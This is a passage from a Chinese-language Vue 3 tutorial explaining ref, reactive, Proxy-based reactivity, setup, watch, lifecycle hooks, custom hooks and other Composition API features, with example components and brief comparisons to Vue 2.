  <h2>工作：{{detail.job}}</h2>
  <h2>薪水：{{detail.salary}}</h2>
  <button @click="showInfo">点我展示详细信息</button>
  <button @click="changeInfo">点我改变信息</button>
</template>

<script>
import {ref} from 'vue'		// 引入 ref 函数
export default {
  name: "App",
  setup() {
    let name = ref('张三')
    let age = ref(18)
    let detail = ref({
       job:'前端工程师',
       salary:'30k',
    })
    function showInfo() {
      console.log(name);
      console.log(age);
      console.log(detail);
      console.log(detail.value);
    }
    function changeInfo() {
      name.value = '李四'
      age.value = 19
      detail.value.job = 'UI设计师'
      detail.value.salary = '60k'
    }

    return {
      name,
      age,
      detail,
      showInfo,
      changeInfo
    }
  },
};
</script>
```

通过上述代码，我们观察封装对象


我们可以看出，原来的数据全部都被封装成为了一个 ref 对象，我们通过 `.value` 来得到属性的值，而如果是对象，vue3.x 还会将里面的数据通过 reactive 封装成为 proxy 代理，这里我们如果如果想要取出对象中的值，只需要使用 `xxx.value.xxx`，而不需要使用 `xxx.value.xxx.value`


## 18.3 reactive 函数

作用：<strong style="color:red">同 `ref`，将数据重新定义为一个响应式的，但是只能定义一个对象类型或数据类型（基本类型需要使用 `ref`）</strong>

语法如下：

```js
const proxyObject = reactive(sourceObject)
```

:sparkles:**注意**

1. `reactive` 在实现前需要先通过 `import {reactive} from 'vue'` 导入函数
2. `reactive` 定义的响应式数据是 "深层次的"
3. 内部基于 ES6 的 Proxy 实现，通过代理操作源对象内部数据进行操作
4. `reactive` 获取数据时，不需要像 `ref` 一样通过 `.value` 来获取数据，可以直接获取数据


## 18.4 Vue3 中的响应式原理

### 18.4.1 回顾 Vue2 的响应式原理

**Vue2.x 的响应式**

- 实现原理

  - 对象类型：通过 `Object.defineProperty()` 属性的读取，修改进行拦截（数据劫持或数据代理）

  - 数据类型：通过重写更新数据的一系列方法来实现拦截（对数组的变更方法进行了包裹）

    ```js
    Object.defineProperty(data, 'count', {
    	get() {},
    	set() {}
    })
    ```

- 存在问题

  - 新增属性、删除属性，界面不会自动更新
  - 直接通过下标修改数组，界面不会自动更新

:herb:**Vue2.x 解决响应问题**

Vue2.x 虽然存在上述问题，但也是有解决方法的，如下：

```js
<template>
  <div id="app">
    <h1>姓名：{{person.name}}</h1>
    <h1>年龄：{{person.age}}</h1>
    <h1 v-show="person.address">{{person.address}}</h1>
    <button @click="addAddress">添加对象地址属性</button>
    <button @click="delAddress">删除对象地址属性</button>
    <hr>
    <h1>爱好一：{{hobby[0]}}</h1>
    <button @click="updateHobby_1">修改爱好1</button>
  </div>
</template>

<script>
import Vue from "vue";
export default {
  name: "App",
  data() {
    return {
      person: {
        name: "张三",
        age: 18,
      },
      hobby: ["抽烟", "喝酒", "烫头"],
    };
  },
  methods: {
    addAddress() {
      // this.person.address = '翻斗大花园' // ×，错误写法
      this.$set(this.person, "address", "翻斗大花园");
      // Vue.set(this.person, 'address', '翻斗大花园')  // 第二种写法
    },
    delAddress() {
      // delete this.person.address        // ×，错误写法
      this.$delete(this.person, "address", "翻斗大花园");
      // Vue.delete(this.person, 'address', '翻斗大花园') // 第二种写法
    },
    updateHobby_1() {
      // this.hobby[0] = '学习'      // ×，错误写法
      this.$set(this.hobby, 0, '学习')
      // this.hobby.splice(0, 1, '学习')  // 第二种写法
    }
  },
};
</script>
```


### 18.4.2 介绍 Vue3 的响应式原理

**Vue3.x 响应式**

<strong style="color:red">Vue 3.x 中不存在 Vue2.x 中出现的问题，可以直接添加、修改和删除</strong>

示例代码如下：

```js
<template>
  <h2>工作：{{detail.job}}</h2>
  <h2>薪水：{{detail.salary}}</h2>
  <h2 v-show="detail.address">地址：{{detail.address}}</h2>
  <button @click="addData">点我添加数据</button>
  <button @click="delData">点我删除数据</button>
  <button @click="updateData">点我更新数据</button>
</template>

<script>
import {ref, reactive} from 'vue'
export default {
  name: "App",
  setup() {
    let detail = reactive({
       job:'前端工程师',
       salary:'30k',
    })

    function addData() {
      detail.address = '翻斗大花园'
    }

    function delData() {
      delete detail.address
    }

    function updateData() {
      detail.job = 'UI设计师'
    }

    return {
      detail,
      addData,
      delData,
      updateData
    }
  },
};
</script>
```

**实现原理**

- 通过 Proxy（代理）：拦截对象中的任意属性的变化，包括：属性值的读写、属性的添加、属性的删除等
- 通过 Reflect（反射）：对被代理对象的属性进行操作
- MDN 文档中描述的 Proxy 与 Reflect
  - Proxy：[传送门](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Proxy)
  - Reflect：[传送门](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Reflect)

**示例**

```js
let person = {
    name:'张三',
    age:18
}

// 模拟 Vue3 中实现响应式
const p = new Proxy(person, {
    // 查询
    get(target, propName) {
        console.log(`有人读取了p身上的${propName}`);
        return target[propName];
    },
    
    // 修改或添加
    set(target, propName, value) {
        console.log(`有人修改了p身上的${propName}`);
        target[propName] = value;
    },

    // 删除
    deleteProperty(target, propName) {
        console.log(`有人删除了p身上的${propName}`);
        return delete target[propName];
    }
})
```

自己书写示例代码时可能出现的问题：

1. `target[propName]` 和 `target.propName` 是不同的，前面的写法，JS 会将 `propName` 当成一个变量对待；后一种写法是用于获取 `target` 的属性值，相当于 `target['propName']`
2. `delete` 方法具有一个布尔类型的返回值，用来表示删除成功和失败，我们需要使用 `return` 将其返回

当然，Vue3 中的对属性的操作，并不是上述的操作，而是通过 Reflect 反射对象来实现的：

- get 函数

  ```js
  return Reflect.get(tagrget, propName)
  ```

- set 函数

  ```js
  Reflect.set(target, propName, value)
  ```

- deleteProperty 函数

  ```js
  return Reflect,deleteProperty(target, propName)
  ```


## 18.5 ref 和 reactive 对比

- 从定义数据角度看
  - `ref` 用来定义：<strong style="color:orange">基本数据类型</strong>
  - `reactive` 用来定义：<strong style="color:orange">对象（或数组）类型数据</strong>
  - :pushpin:备注：`ref` 也可以用来定义对象（或数组）类型数据，它内部会自动通过 `reactive` 来将其封装为一个代理对象
- 从原理角度对比
  - `ref` 通过 `Object.defineProperty()` 的 `get` 与 `set` 来实现响应式（数据劫持）
  - `reactive` 通过使用==Proxy==来实现响应式（数据劫持），并通过 `Reflect` 操作<strong style="color:orange">源对象</strong>内部的数据
- 从使用角度对比
  - `ref` 定义的数据：操作数据需要 `.value`，读取数据时直接读取，不需要添加 `.value`
  - `reactive` 定义数据：操作数据与读取数据：均不需要添加 `.value`


## 18.6 setup 相关注意点

- setup 执行的时机
  - 在 `beforeCreate` 之前执行一次，在 `setup` 函数里面 this 的值是 undefined
- setup 的参数
  - props：值为对象，包含：组件外部传递过来，并且组件内部声明接收了的属性
  - context：上下文对象，主要包含以下三个属性
    - `attrs`：值为对象，包含<strong style="color:orange">组件外部传递过来的，但没有在 props 配置中声明的属性，相当于 `this.$attrs`</strong>
    - `slots`：收到的插槽内容，相当于 `this.$slots`
    - `emit`：分发自定义事件的函数，相当于 `this.$emit`

我们首先测试 setup 执行的时机

```js
setup() {
  console.log('--setup--');
  console.log(this);
},
beforeCreate() {
  console.log('--beforeCreate--');
}
```

打印结果如下：


我们会发现，setup 是先 beforeCreate 执行的，并且里面的 this 值为 undefined

<strong style="color:red">其实 setup 里面是有两个参数的，分别是：props 和 context</strong>


我们现在拿两个组件进行测试：Demo 和 App

<u>App.vue</u>

```html
<Demo msg="Hello World" id="1"></Demo>	
<!-- 给 Demo 组件传递数据 -->
```

<u>Demo.vue</u>

```js
export default {
  name: 'Demo',
  props:['msg'],
  setup(props, context) {
    console.log(props);
    console.log(context.attrs);
  }
}
```

可以看到打印结果如下：


> 未被 props 接受的数据都跑到 attrs 中来

---

<u>App.vue</u>

```js
<template>
  <Demo @hello="showHelloMsg"></Demo>
</template>

<script>
import Demo from "./components/Demo.vue";
export default {
  name: "App",
  components: {
    Demo,
  },
  setup() {
    function showHelloMsg(value) {
      console.log("Hello World---", value);
    }

    return {
      showHelloMsg,
    };
  },
};
</script>
```

<u>Demo.vue</u>

```js
<template>
  <button @click="test">点我触发事件</button>
</template>

<script>
export default {
  name: 'Demo',
  // emit:['hello'],
  setup(props, context) {
    function test() {
      context.emit('hello', 666)
    }

    return {
      test
    }
  }
}
</script>
```

> 可以看到，在 Vue3.x 中，需要 emit 不再是通过 this 来获取了，而是通过 setup 中的参数 context 来获取，同时是得到的是 emit，而不是 Vue2.x 中的 $emit，同时这里有一点需要注意，在以前使用 emit，那么则会报以下错误：
>
> 
>
> 这个时候，我们就需要添加 emit 配置项，`emit:['hello']`，当然，现在 Vue 更新迭代之后就去除了这类警告

---

<u>App.vue</u>

```html
<template>
  <Demo>
    <template v-slot:test>
      <span>Hello World</span>
    </template>
  </Demo>
</template>
```

<u>Demo.vue</u>

```html
<template>
  <slot name="test"></slot>
</template>
```

:warning:注意：

- 这里有一个和 Vue2 很不一样就是：在 Vue2 中具名插槽的可以使用 `slot="name"`，但是在 Vue3 中 `slot="name"` 已经被舍弃，只能使用 `v-slot:name` 的写法


## 18.7 计算属性与监视属性

### 18.7.1 computed 函数

与 Vue2 中的 computed 配置功能一致

示例如下：

```js
import {computed} from 'vue'

setup(){
    ...
	//计算属性——简写
    let fullName = computed(()=>{
        return person.firstName + '-' + person.lastName
    })
    //计算属性——完整
    let fullName = computed({
        get(){
            return person.firstName + '-' + person.lastName
        },
        set(value){
            const nameArr = value.split('-')
            person.firstName = nameArr[0]
            person.lastName = nameArr[1]
        }
    })
}
```


### 18.7.2 watch 监视属性

与 Vue2 中 watch 配置功能一致

- 监视 ref 定义的响应式数据

  ```js
  <template> 
    <h1>num：{{num}}</h1>
    <button @click="num++">点我num+1</button>
    <hr>
    <h1>msg:{{msg}}</h1>
    <button @click="msg+='!'">点我加!</button>
  </template>
  
  <script>
  import {ref, watch} from 'vue'
  export default {
    name: "App",
    setup() {
      let num = ref(0)
  
      let msg = ref('你好呀')
  
      // 情况一：监视 ref 所定义的一个响应式数据
      watch(num, (newValue, oldValue) => {
        console.log('sum 发生改变', newValue, oldValue);
      }, {immediate:true})
  
      
      // 情况二：监视 ref 所定义的多个响应式数据
      watch([num, msg], (newValue, oldValue) => {
        console.log('num 或者 msg 的值发生改变', newValue, oldValue);
      }, {immediate:true})
  
      return {
        num,
        msg
      }
    },
  };
  </script>
  ```

  > 在 Vue3 中，watch 以一个函数API 形式存在，函数里面一共有 3 个参数，分别是监视的属性，回调和配置项，第三个参数是可选的

- 监视 reactive 定义的响应式数据

  测试代码

  ```js
  <template>
    <h1>姓名：{{person.name}}</h1>
    <button @click="person.name+='~'">点我姓名改变</button>
    <hr>
    <h1>年龄：{{person.age}}</h1>
    <button @click="person.age++">点我年龄+1</button>
    <hr>
    <h1>薪资：{{person.job.j1.salary}}K</h1>
    <button @click="person.job.j1.salary++">点我涨薪</button>
  </template>
  
  <script>
  import { ref, watch, reactive } from "vue";
  export default {
    name: "App",
    setup() {
      let person = reactive({
        name: "张三",
        age: 18,
        job: {
          j1: {
            salary: 20,
          },
        },
      });
  
      return {
        person,
      };
    },
  };
  </script>
  
  ```

  情况一

  ```js
  // 情况一：监视reactive所定义的一个响应式数据的全部属性
  /* 注意点：
    1. 此处无法正确获取oldvalue
    2. 强制开启了深度监视（deep 配置无效）
  */
  watch(person, (newValue, oldValue) => {
    console.log('person发生改变', newValue, oldValue);
  })
  ```

  情况二

  ```js
  // 情况二：监视reactice所定义的一个响应式数据的一个属性（非对象）
  /* 注意点：
    1.  此时可以正确获取oldValue
  */
  watch(() => person.name, (newValue, oldValue) => {
    console.log('person的name发生改变', newValue, oldValue);
  })
  ```

  情况三

  ```js
  // 情况三：监视 reactive 所定义的一个响应式数据中的多个属性（非对象）
  /* 注意点：
    1. 此时可以正确获取oldValue
  */
  watch([() => person.name, () => person.age], (newValue, oldValue) => {
    console.log('person的name或者age发生改变',newValue, oldValue);
  })
  ```

  情况四

  ```js
  // 情况四：监视 reactive 所定义的一个响应式数据中的某个对象属性
  /* 注意点：
    1. deep 配置有效
    2. oldValue 无效
  */
  watch(
    () => person.job,
    (newValue, oldValue) => {
      console.log("person的job变化了", oldValue, newValue);
    },
    { deep: true }
  );
  ```


:herb:**关于 watch 时 value 的问题**

如果我们是通过 ref 封装的基本数据类型，那么监视的属性直接写属性名即可

```js
let num = ref(0);

watch(num, (newValue, oldValue) => {
  console.log("num 的值发生改变", newValue, oldValue);
});
```


而如果我们使用 ref 封装的对象，那么由于内部还会调用 reactive 将其内部再封装成为一个 proxy 对象，此时我们如果还想监视内部数据发生的改变，那么则需要使用 `.value` 或添加 `deep:true` 开启深度监视

```js
let person = ref({
  name: "张三",
  age: 18,
});

// 方式1：添加 .value
watch(person.value, (newValue, oldValue) => {
  console.log("person 的值发生改变", newValue, oldValue);
});

// 方式2：开启深度监视
watch(person, (newValue, oldValue) => {
  console.log("person 的值发生改变", newValue, oldValue);
}, {deep:true});
```


### 18.7.3 watchEffect 函数

- watch 的套路是：既要指明监视的属性，也要指明监视的回调

- watchEffect 的套路是：不用指明监视哪个属性，监视的回调中用到哪个属性，就去监视那个属性

- watchEffect 有点类似于 computed:

  - 但 computed 注重计算出来的值（回调函数的返回值），所以必须要写返回值

  - 而 watchEffect 更注重的是过程（回调函数的函数体），所以不需要写返回值

    ```js
    //watchEffect所指定的回调中用到的数据只要发生变化，则直接重新执行回调。
    watchEffect(()=>{
        const x1 = sum.value
        const x2 = person.age
        console.log('watchEffect配置的回调执行了')
    })
    ```


## 18.8 Vue3生命周期

Vue3声明周期图示如下：


- Vue3.0中可以继续使用Vue2.x中的生命周期钩子，但有有两个被更名：
  - ```beforeDestroy```改名为 ```beforeUnmount```
  - ```destroyed```改名为 ```unmounted```
- Vue3.0也提供了 Composition API 形式的生命周期钩子，与Vue2.x中钩子对应关系如下：
  - `beforeCreate`  ==>    `setup()`
  - `created`            ==>     `setup()`
  - `beforeMount`   ==>     `onBeforeMount`
  - `mounted`            ==>    `onMounted`
  - `beforeUpdate`  ==>    `onBeforeUpdate`
  - `updated`            ==>   `onUpdated`
  - `beforeUnmount` ==>  `onBeforeUnmount`
  - `unmounted`         ==>   `onUnmounted`

> :herb:补充：组合式API 中生命周期中的钩子要快于配置中对应的钩子


## 18.10 自定义 hook

**什么是 hook？**

本质是一个函数，把 setup 函数中使用的 Composition API 进行封装

:spiral_notepad:**备注**

- 类似于 Vue2.x 中的 mixin
- 自定义 hook 的优势：<strong style="color:red">复用代码，让 setup 中的逻辑更加清楚易懂</strong>

**案例：现在我们有多个组件想要完成一个功能 —— '打点'（即记录鼠标当前所在的位置）**

第一步：在 src 文件夹下创建一个 hooks 文件夹

```
src             
├─ assets       
│  └─ logo.png  
├─ components   
│  └─ Demo.vue  
├─ hooks         
├─ App.vue      
├─ index.css    
└─ main.js      
```

在 hooks 中创建新的文件 usePoint.js （一般而言，**hook 文件夹下的功能文件的前缀都取"use"**）

```js
// usePoint.js 文件
import { reactive, onMounted, onBeforeUnmount } from 'vue'
export default function () {
  let point = reactive({
    x: 0,
    y: 0,
  })

  function savePoint(event) {
    point.x = event.pageX
    point.y = event.pageY
  }

  // 实现鼠标"打点"相关的声明周期钩子
  onMounted(() => {
    window.addEventListener('click', savePoint)
  })

  onBeforeUnmount(() => {
    window.removeEventListener('click', savePoint)
  })

  return point
}
```

引入功能模块的组件（这里以 App.vue 组件为例）

```js
<template>
  <h1>当前坐标所在的位置为：{{point.x}}, {{point.y}}</h1>
</template>

<script>
import usePoint from "./hooks/usePoint";
export default {
  name: "App",
  setup() {
    let point = usePoint();

    return {
      point,
    };
  },
};
</script>
```

实现效果如下：


## 18.11 toRef 与 toRefs

作用：<strong style="color:red">创建一个 ref 对象，其 value 值指向另一个对象的某个属性</strong>

语法如下：

```js
const name = toRef(person, 'name')
```

- 应用：要将响应式对象中的某个属性单独提供给外部使用
- 扩展：`toRefs` 与 `toRef` 功能一致，但可以批量创建多个 ref 对象，语法：`toRefs(person)`


引入目的：<strong style="color:red">简写变量名，使得代码更加简洁</strong>

**情景分析：**

情景一：某个对象的层次比较深，即对象相互嵌套，我们要拿出来放到模板中，就必须要 `a.b.c.…` 这种形式

情景二：我们在模板中用到某个对象的次数比较多，每次都需要通过 `a.b` 来放置

基于上述的两个情景，我们需要考虑到将变量名进行简写，这个时候就需要用到 `ref` 和 `refs`

**示例**

```js
<template>
  <h1>姓名：{{myName}}</h1>
  <h1>职业：{{myJob}}</h1>
  <hr>
  <h1>姓名：{{name}}</h1>
  <h1>职业：{{job.j1.name}}</h1>
</template>

<script>
import {reactive, toRef, toRefs} from 'vue'
export default {
  name: "App",
  setup() {
    let person = reactive({
      name:'张三',
      job:{
        j1:{
          name:'后端工程师'
        },
      } 
    })

    let myName = toRef(person, 'name')

    let myJob = toRef(person.job.j1, 'name')
    // 注意点1：这里不能写成 toRef(person, 'job.j1.name')

    let p = toRefs(person)
    return {
      myName,
      myJob,
      ...p
      //注意点2：这里需要使用扩展运算符将其展开，分别返回
    }
  },
};
</script>
```

执行结果如下：


> :warning:注意：
>
> 1. 针对注意点1的解释：为什么不能写成 `toRef(person, 'job.j1.name')` 的道理很简单，因为字符串里面代表是对象的属性，而没有被当做是变量解析，也就是说上述写法的意思，person 里面有一个属性叫做 'job.j1.name'（显然这种形式也是错误的）
> 2. 针对注意点2的解释：为什么要使用扩展运算符将其拆分， return 里面返回的应该是一个具体的对象，也就是要使用具体的变量名去接收（statement），然后再返回，而不能直接返回一个匿名对象

:question:**讨论**

1. 我们为啥不能直接返回一个字典，里面就写他们之间的映射关系？如下：

   ```js
   return {
     name:person.name,
     job:person.job.j1.name
   }
   ```

2. 我们为什么不能使用再弄一个声明来，将其封装成为了 ref 对象使用？如下：

   ```js
   let name = ref(person.name)
   let job = ref(person.job.j1.name)
   ```

答：这就涉及到==深拷贝和浅拷贝==的问题了，我们使用 `toRef` 是浅拷贝，相当于引用，而上面两种方式则是深拷贝，一个是影响到内存使用问题，另一个最大的问题就是拷贝数据与原数据无关联


# 19 Vue3 中其他的 Composition API


## 19.1 shallowReactive 与 shallowRef

- ​	`shallowReactive`：只处理对象最外层属性的响应式（浅响应式）
- `shalldowRef`：只处理基本数据类型的响应式，不进行对象的响应式处理
- 使用时机
  - 如果有一个对象数据，结构比较深，但变化时只是外层属性发生改变 ==> shalldowReactive
  - 如果有一个对象数据，后续功能不会修改该对象中的属性，而是生新的对象来替换 ==> shallowRef


## 19.2 readonly 和 shalldowReadonly

- readonly：让一个响应式数据变成只读的（深只读）
- shalldowReadonly：让一个响应式数据变成只读的（浅只读）
- 应用场景：不希望数据被修改时


## 19.3 toRaw 与 markRaw

- `toRaw`
  - 作用：<strong style="color:orange">把被 reactive 或 readonly 后的 Proxy 对象转换为原来的 target 对象</strong>
  - 使用场景：用于读取响应式对象对应的普通对象，对这个普通对象的所有操作，不会引起页面更新，提升性能
- `markRow`
  - 作用：<strong style="color:orange">直接让 target 不能被 reactive 或 readonly</strong>
  - 使用场景：
    1. 有些值不应被设置为响应式的，例如复杂的第三方类库
    2. 当渲染具有不可变数据的大列表时，跳过响应式可以提高性能


## 19.4 customRef

- 作用：创建一个自定义的 ref，并对其依赖项跟踪和更新触发进行显式控制

- 示例代码如下：

  ```js
  <template>
  	<input type="text" v-model="keyword">
  	<h3>{{keyword}}</h3>
  </template>
  
  <script>
  	import {ref,customRef} from 'vue'
  	export default {
  		name:'Demo',
  		setup(){
  			// let keyword = ref('hello') //使用Vue准备好的内置ref
  			//自定义一个myRef
  			function myRef(value,delay){
  				let timer
  				//通过customRef去实现自定义
  				return customRef((track,trigger)=>{
  					return{
  						get(){
  							track() //告诉Vue这个value值是需要被“追踪”的
  							return value
  						},
  						set(newValue){
  							clearTimeout(timer)
  							timer = setTimeout(()=>{
  								value = newValue
  								trigger() //告诉Vue去更新界面
  							},delay)
  						}
  					}
  				})
  			}
  			let keyword = myRef('hello',500) //使用程序员自定义的ref
  			return {
  				keyword
  			}
  		}
  	}
  </script>
  ```


## 19.5 provide 和 inject


- 作用：实现<strong style="color:red">祖与后代组件间</strong>通信

- 套路：父组件有一个 `provide` 选项来提供数据，后代组件有一个 `inject` 选项来开始使用这些数据

- 具体写法：

  1. 祖组件中：

     ```js
     setup(){
     	......
         let car = reactive({name:'奔驰',price:'40万'})
         provide('car',car)
         ......
     }
     ```

  2. 后代组件中：

     ```js
     setup(props,context){
     	......
         const car = inject('car')
         return {car}
     	......
     }
     ```

:spiral_notepad:**备注**

> `provide` 是由父组件提供，而 `inject` 由后代组件接收，当然就包括了父组件与子组件之间的数据传递，不过一般父组件传递数据给子组件，我们使用的是 `props`


## 19.5 响应式数据的判断

- isRef: 检查一个值是否为一个 ref 对象
- isReactive: 检查一个对象是否是由 `reactive` 创建的响应式代理
- isReadonly: 检查一个对象是否是由 `readonly` 创建的只读代理
- isProxy: 检查一个对象是否是由 `reactive` 或者 `readonly` 方法创建的代理


# 20 Composition API 的优势

## 20.1 Options API 存在的问题

使用传统OptionsAPI中，新增或者修改一个需求，就需要分别在data，methods，computed里修改 。

<center>
    
      
</center>


## 20.2 Composition API 的优势

我们可以更加优雅地组织我们的代码、函数。让相关功能的代码更加有序的组织在一起

<center>
  
    
</center>


# 21 新的组件

## 21.1 Fragment 

- 在Vue2中: 组件必须有一个根标签
- 在Vue3中: 组件可以没有根标签, 内部会将多个标签包含在一个Fragment 虚拟元素中
- 好处: 减少标签层级, 减小内存占用


## 21.2 Teleport 

`Teleport`： 中文译为 "转移、传送"，是一种能够将我们的<strong style="color:red">组件html结构</strong>移动到指定位置的技术。

示例代码如下：

```js
<teleport to="移动位置">
	<div v-if="isShow" class="mask">
		<div class="dialog">
			<h3>我是一个弹窗</h3>
			<button @click="isShow = false">关闭弹窗</button>
		</div>
	</div>
</teleport>
```

> 这里的移动位置主要是选择器，例如：html、body、#id、.class 等等


## 21.3 Suspense

这个以后补


# 22 Vue3 中其他的改变

## 22.1 全局API的转移

- Vue 2.x 有许多全局 API 和配置。

  - 例如：注册全局组件、注册全局指令等。

    ```js
    //注册全局组件
    Vue.component('MyButton', {
      data: () => ({
        count: 0
      }),
      template: '<button @click="count++">Clicked {{ count }} times.</button>'
    })
    
    //注册全局指令
    Vue.directive('focus', {
      inserted: el => el.focus()
    }
    ```

- Vue3.0中对这些API做出了调整：

  - 将全局的API，即：```Vue.xxx```调整到应用实例（```app```）上

    | 2.x 全局 API（```Vue```） | 3.x 实例 API (`app`)                        |
    | ------------------------- | ------------------------------------------- |
    | Vue.config.xxxx           | app.config.xxxx                             |
    | Vue.config.productionTip  | <strong style="color:#DD5145">移除</strong> |
    | Vue.component             | app.component                               |
    | Vue.directive             | app.directive                               |
    | Vue.mixin                 | app.mixin                                   |
    | Vue.use                   | app.use                                     |
    | Vue.prototype             | app.config.globalProperties                 |

## 22.2 其他改变

- data选项应始终被声明为一个函数。

- 过度类名的更改：

  - Vue2.x写法

    ```css
    .v-enter,
    .v-leave-to {
      opacity: 0;
    }
    .v-leave,
    .v-enter-to {
      opacity: 1;
    }
    ```

  - Vue3.x写法

    ```css
    .v-enter-from,
    .v-leave-to {
      opacity: 0;
    }
    
    .v-leave-from,
    .v-enter-to {
      opacity: 1;
    }
    ```

- <strong style="color:#DD5145">移除</strong>keyCode作为 v-on 的修饰符，同时也不再支持```config.keyCodes```

- <strong style="color:#DD5145">移除</strong>```v-on.native```修饰符

  - 父组件中绑定事件

    ```vue
    <my-component
      v-on:close="handleComponentEvent"
      v-on:click="handleNativeClickEvent"
    />
    ```

  - 子组件中声明自定义事件

    ```vue
    <script>
      export default {
        emits: ['close']
      }
    </script>
    ```

- <strong style="color:#DD5145">移除</strong>过滤器（filter）

  > 过滤器虽然这看起来很方便，但它需要一个自定义语法，打破大括号内表达式是 “只是 JavaScript” 的假设，这不仅有学习成本，而且有实现成本！建议用方法调用或计算属性去替换过滤器。

- ......


